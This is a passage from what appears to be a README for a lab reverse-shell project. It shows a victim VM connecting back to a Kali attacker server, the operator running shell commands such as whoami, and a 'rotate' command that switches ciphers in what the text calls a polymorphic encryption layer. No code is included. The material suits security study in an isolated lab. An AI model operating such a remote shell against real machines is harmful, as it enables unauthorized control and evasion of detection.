     You should see:
    ```
    [*] Connecting to attacker...
    [+] Connected!
    [DEBUG] Generated session key (hex): ...
    [+] Session key sent.
    [+] Initial encryption method: AES
    ```

---

#### ✅ Step 3: Use the Shell From the Kali VM

- Back in the Kali terminal (where the server is running), you will now see:
    ```
    [+] Connection from ('192.168.0.19', 36944)
    [Victim] <base64 marker>
    [+] Session key established.
    ```

- You can now enter commands:
    ```bash
    Shell> whoami
    ```

- The Ubuntu VM will execute the command, and return the result, e.g.:
    ```
    ubuntu-vm
    ```

- Try these example commands:
    - `whoami` — Print username
    - `pwd` — Print current working directory
    - `ls -la` — List directory contents
    - `exit` — Cleanly terminate the shell session

---

#### 🔁 Switching Encryption Algorithms (Bonus)

- At any time during the session, you can type:
    ```bash
    Shell> rotate
    ```
- This command instructs the victim to randomly switch to a new symmetric encryption algorithm. The new method is logged in the console:
    ```
    [+] Switching encryption to CHACHA20
    ```
- This dynamic switching is part of the polymorphic encryption layer — a key feature of this implementation.

---

### 2. Analysis Tools
